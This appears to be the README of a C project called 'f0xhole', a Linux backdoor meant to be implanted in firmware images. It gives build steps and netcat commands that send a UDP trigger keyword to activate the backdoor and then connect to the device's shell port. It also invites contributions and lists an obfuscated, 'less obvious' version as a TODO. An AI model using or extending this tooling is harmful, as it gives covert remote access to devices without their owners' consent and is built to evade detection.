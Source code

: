 # f0xhole hardware backdoor
Linux backdoor written in C. It was created as a basic demonstration on how to implement a backdoor into Linux based firmware images for hardware hacking.

## Build

Download the c code and compile it using GCC or cmake into whatever linux architecture you are targeting

## Use

Once its running on the target machine you send a keyword using `echo -n "secret_trigger" | nc -u 127.0.0.1 1337` which will then open up the actual backdoor.
You can then connect to the backdoor using anything, example `nc <target ip> 1338`

## Pull Requests

If you modify or improve the code at all please put in a pull request so that we can implement it. 

## TODO
- [ ] Add a prompt
- [ ] Add a message to let you know the trigger worked
- [ ] Develop an obfuscated version that is less obvious
